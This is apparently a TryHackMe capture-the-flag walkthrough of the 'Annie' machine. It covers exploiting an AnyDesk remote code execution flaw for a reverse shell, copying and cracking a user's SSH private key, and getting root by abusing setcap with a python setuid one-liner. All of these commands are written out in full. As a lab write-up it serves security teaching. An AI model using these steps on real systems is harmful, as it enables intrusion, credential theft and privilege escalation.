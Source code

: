 TryHackMe <br>
Annie
---

# <b>Reconnaissance/Scanning:</b>
Starting with an `Nmap` scan to show what ports are open. I found 3 ports open with one running AnyDesk Client.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/bbed2927-33be-4b29-a0a1-1434695e2801)

# <b>Vulnerability assessment:</b>
Since it’s a software running on that port, I checked `searchsploit` for any current exploits.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/e446c647-a0af-40a0-925c-e298583d8581)

I ran into a bunch of type errors and syntax errors until I found an updated script
<a href=https://github.com/josephalan42/Exploits/blob/main/AnyDesk%205.5.2%20-%20Remote%20Code%20Execution>here</a> <br>
After changing the target IP in the script and using the `msfvenom` command to generate a shellcode,  <br>
updating the LHOST and LPORT parameters to my IP and port for the reverse shell,  <br>
I was able to finally execute the script correctly.

# <b>Exploit:</b>

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/4e4dba83-415f-400b-8faf-d31698126474)

```
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
```
Now that I have a shell, i'll upgrade it and see what can be found.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/0d1ece4b-f83c-4eee-ab2a-e1c9ead565b0)

Looks like the first flag user.txt is there and some potential good information is the <b>.ssh</b> directory. <br>
Another good one would have been the <i>.bash_history</i> file for any user ran commands in previous sessions. <br>
Sadly, the <b>/dev/null</b> means that the history gets deleted.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/27f2d05b-8b37-4f75-b21f-3f02cdd64cd8)

In the <b>Downloads</b> directory it’s confirmed that they are running the vulnerable version of AnyDesk. <br>
Accessing the <b>.ssh</b> directory there were a user’s private key and the <i>authorized_keys</i> file. <br>
I set up a python server and downloaded them to my local machine.
```
# python server on target machine
$ python3 -m http.server <PORT>

# on local machine
$ wget http://<TARGET_MACHINE_IP>:<PORT>/path/to/file
```
From there I looked at the <i>authorized_keys file</i> but didn’t find any usernames or plaintext credentials. <br>
I tried to SSH as Annie on the machine with: <br>
```
$ ssh annie@<machine_IP> -I id_rsa
```
And I was prompted with:

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/621323ec-58b5-450c-994f-29965552826b)

That’s good practice to passphrase protect the private key, however, I’ll still try to crack it. <br>
To get that ready for `john` to crack that, I’ll have to make the file a hash with `ssh2john` first.
```
# hashing the file
$ ssh2john id_rsa > hash.txt

# cracking the hash with john
$ john hash.txt -w=/usr/share/wordlists/rockyou.txt
```
Didn’t take too long to crack that!

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/a4130268-279d-4ad7-bdc8-3cd200f38d1e)

# <b>Privilege escalation:</b>
My next step was to see if there were any files/binaries I could run with higher privileges.
```
$ find / -perm -u=s -type f 2>/dev/null
```
![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/a127ba8d-c073-4009-b5c8-edc3e05f629a)

Awesome! Something I can run with higher privileges. <br>
`Setcap` lets a user set file capabilities/permissions. <br>
So, thinking through this, what could I give the user extended permissions to be able to escalate my privileges? <br>
Python would be a good one since there are python one-liners to use for gaining shells!
```
# copying python3 to the user’s home directory
$ cp /usr/bin/python3 /home/annie

# checking the permissions for python3 
$ getcap -r python3

# setting the extended permissions for python3
$ setcap cap_setuid+ep python3
```
![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/7160c0a2-d582-4de3-a3f0-93a2ccf3aac7)
![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/c87cbb18-1275-46e0-a5f9-cc99b5a3c4f3)

When checking the permissions the first time, nothing is returned, meaning there are no extended permissions set. <br>
The second time checking after executing the setcap command, python3 is showing having the extended permissions set. <br>
Now for the python one-liner:
```
$ ./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```
![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/89db561b-4b8f-4ad8-b2e9-f6917d5083a8)

# <b>Reporting:</b>
Keep all software/firmware up to date with the latest patches to avoid vulnerabilities. <br>
Check that files have correctly set user/group permissions.



























